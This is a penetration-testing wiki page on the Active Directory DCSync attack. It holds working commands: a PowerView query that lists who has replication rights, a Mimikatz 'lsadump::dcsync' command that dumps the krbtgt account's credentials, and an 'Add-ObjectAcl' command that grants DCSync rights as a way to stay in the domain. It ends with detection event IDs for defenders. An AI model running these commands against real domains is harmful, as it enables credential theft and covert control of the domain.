 # DCSync

## DCSync

The **DCSync** permission implies having these permissions over the domain itself: **DS-Replication-Get-Changes**, **Replicating Directory Changes All** and **Replicating Directory Changes In Filtered Set**.

**Important Notes about DCSync:**

* The **DCSync attack simulates the behavior of a Domain Controller and asks other Domain Controllers to replicate information** using the Directory Replication Service Remote Protocol \(MS-DRSR\). Because MS-DRSR is a valid and necessary function of Active Directory, it cannot be turned off or disabled.
* By default only **Domain Admins, Enterprise Admins, Administrators, and Domain Controllers** groups have the required privileges.
* If any account passwords are stored with reversible encryption, an option is available in Mimikatz to return the password in clear text

### Enumeration

Check who has these permissions using `powerview`:

```bash
Get-ObjectAcl -DistinguishedName "dc=dollarcorp,dc=moneycorp,dc=local" -ResolveGUIDs | ?{($_.ObjectType -match 'replication-get') -or ($_.ActiveDirectoryRights -match 'GenericAll')}
```

### Exploit

```bash
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
```

### Persistence

If you are a domain admin, you can grant this permissions to any user with the help of `powerview`:

```bash
Add-ObjectAcl -TargetDistinguishedName "dc=dollarcorp,dc=moneycorp,dc=local" -PrincipalSamAccountName username -Rights DCSync -Verbose
```

Then, you can **check if the user was correctly assigned** the 3 privileges looking for them in the output of \(you should be able to see the names of the privileges inside the "ObjectType" field\):

```bash
Get-ObjectAcl -DistinguishedName "dc=dollarcorp,dc=moneycorp,dc=local" -ResolveGUIDs | ?{$_.IdentityReference -match "student114"}
```

### Mitigation

* Security Event ID 4662 \(Audit Policy for object must be enabled\) – An operation was performed on an object
* Security Event ID 5136 \(Audit Policy for object must be enabled\) – A directory service object was modified
* Security Event ID 4670 \(Audit Policy for object must be enabled\) – Permissions on an object were changed
* AD ACL Scanner - Create and compare create reports of ACLs. [https://github.com/canix1/ADACLScanner](https://github.com/canix1/ADACLScanner)

\*\*\*\*[**More information about DCSync in ired.team.**](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/dump-password-hashes-from-domain-controller-with-dcsync)\*\*\*\*


